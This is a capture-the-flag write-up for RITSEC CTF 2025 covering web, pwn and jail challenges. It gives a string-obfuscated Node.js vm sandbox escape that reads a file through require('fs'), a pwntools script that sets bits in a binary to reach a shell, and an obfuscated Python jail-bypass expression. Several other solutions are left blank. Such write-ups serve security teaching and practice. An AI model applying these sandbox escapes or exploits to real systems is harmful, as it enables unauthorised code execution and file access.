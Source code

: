 ```yaml
---
weight: 1
title: "RITSEC CTF 2025"
date: 2025-03-21
lastmod: 2025-03-23
draft: false
author: "Xenonminer"
authorLink: "https://xenonminer.github.io"
description: "Writeup for the challenges in RITSEC CTF 2025"

tags: ["web", "pwn", "jail"]
categories: ["Writeups"]

lightgallery: true

toc:
  enable: true
---
```



- [https://ctftime.org/event/2673](https://ctftime.org/event/2673)
- March 21 - March 23

# My Solves/Writeups

## Web

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| web/virtual-mayhem | easy | 419 | [jump](#webvirtual-mayhem) |
| web/upload-issues | medium | 483 | [jump](#webupload-issues) |

## Pwn

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| pwn/bit-burger | easy | 467 | [jump](#pwnbit-burger) |
| pwn/hashmatch | medium | 499 | [jump](#pwnhashmatch) |

## Jail

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| jail/shrimple | easy | 494 | [jump](#jailshrimple) |
| jail/seti | easy | 496 | [jump](#jailseti) |

## Writeups
### web/virtual-mayhem

This application uses a virtual machine to sandbox user templates and filters potentially harmful input. However, every lock has its key. Can you figure out how to escape the virtual machine and retrieve the flag?

host5.metaproblems.com:7585

(This challenge was written by MetaCTF. The flag format is MetaCTF{})

Attachments: [virtual_mayhem.zip](https://ctfd.ritsec.club/files/6e87b37374f323335aff8977a297bfab/virtual_mayhem.zip?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6MjV9.Z-B-Jg.1W0IXuC7B-qiAa6I6WEV7CCAFJQ)

### Solution

Final exploit:
```js
({}).constructor.constructor("return glo"+"bal['pr'+'ocess']['main'+'Module']['req'+'uire']('f'+'s').readFileSync('flag.txt','utf8')")()
```

Flag: ```i forgor```
### web/upload-issues

This site lets you look at cpio archives. If only we had an admin account, we could look at the flag...

web-upload-issues.ctf.ritsec.club

(This challenge was written by ICR.)

Attachments: [upload_issues.zip](https://ctfd.ritsec.club/files/84e7abaa156f638e60e0e780fc15cb30/upload_issues.zip?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6NDB9.Z-B-1Q.6UTm9Z0hKBpLO7HF5X-MG3WDAqI)

### Solution


Flag: ```RS{b34m_m3_up_5c0tty}```

### pwn/bit-burger

Welcome to BitBurger, home of the world-famous Bit Burger! 🍔

Put in an order here: nc binex-bitburger.ctf.ritsec.club 32200

Only grilled or fried at the moment though, the other machines are broken, sorry!

(This challenge was written by MetaCTF.)

Attachments: [bit_burger.zip](https://ctfd.ritsec.club/files/0c89e0a38527c92bf27972fd41422f6b/bit_burger.zip?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6MzB9.Z-B_Iw.X1IvBkP67LkqSFi2Vpo4WfpO1Jk)

### Solution
The idea for this challenge was simple, being just

Final Exploit:
```py
from pwn import *

s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe.path] + argv, *a, **kw)


def find_ip(payload):
    p = process([exe.path], level='warn')
    p.sendlineafter(b'>', payload)
    p.wait()
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))
    warn('located EIP/RIP offset at ' + ip_offset)
    return ip_offset

gdbscript = '''
init-pwndbg
b *0x0000000000401601
continue
'''.format(**locals())

exe = ELF("./bit_burger.bin_patched")
elf = context.binary = exe
context.log_level = 'debug'

# Start Exploit

offset = 0

io = start()

bits_to_set_for_exec = [1,3,5,7,9,10,13,23]
#bits_to_set_for_exec = [2, 12, 15, 16, 18, 19, 20, 23, 24]
for i in range(1, 25):
    if i in bits_to_set_for_exec:
        sla(b'?', b'y')
    else:
        sla(b'?', b'n')

sla(b':', b'a')
itr()
```
```Flag: pTCNp5p6LP0d7qA77yvb4SHf40```

### pwn/hashmatch

This server is asking me to reverse a hash for a flag, but brute forcing MD5 sounds tedious. Maybe there's something more... fun we can do to find the flag.

nc hashmatch.ctf.ritsec.club 30898

When you connect, type your input and it will be handled by the challenge.

(This challenge was written by ICR.)

Attachments: [hashmatch.zip](https://ctfd.ritsec.club/files/67524143b8aa8bae3bfbaff845e09347/hashmatch.zip?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6NTJ9.Z-B_XA.zBZo6IPQg71dIx3iQ-ZWwHN-SZU)

### Solution
Note: Solved after the CTF ended.

```Flag: nuclei```

### jail/shrimple

As shrimple as that :p

nc shrimple.ctf.ritsec.club 32195

Attachments: [shrimple.py](https://ctfd.ritsec.club/files/1dca913b2e6e8ffc19dfc1fd1164dfc6/shrimple.py?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6NDZ9.Z-B_gA.q6QKBzoDeEEQIopttb2b_ymfifU)

### Solution
After cleaning up many uneeded parentheses, I was eventually able to reach the 210 character limit.

Final exploit:
```
"((-~([]<[])<<-~-~-~-~([]<[]))--~-~([]<[])<<(-~(-~([]<[])<<-~-~-~-~([]<[]))--~-~([]<[])))-(-~-~-~-~([]<[]))**-~-~-~-~-~-~([]<[])+(-~-~([]<[])<<(-~-~-~-~-~-~([]<[])))+((-~([]<[]))<<-~-~-~-~-~([]<[]))--~-~([]<[])"
```

Then, after forming the image with CyberChef, throwing into [georgeom.net/StegOnline/](georgeom.net/StegOnline/) and browsing bit planes showed the flag.
```Flag: RS{n0t_s0_sHr1Mp13_any_m0r3_:3}```

### jail/seti

Come join our search for alien life

nc seti.ctf.ritsec.club 31793

Attachments: [seti.zip](https://ctfd.ritsec.club/files/fa22e106dfa5538a985b2fb282edc4a0/seti.zip?token=eyJ1c2VyX2lkIjo1NjksInRlYW1faWQiOjMwNiwiZmlsZV9pZCI6NDV9.Z-B_xA.dZ9pU6kxOysjF--ANSYzv8NGKd0)

### Solution


```i forgor```
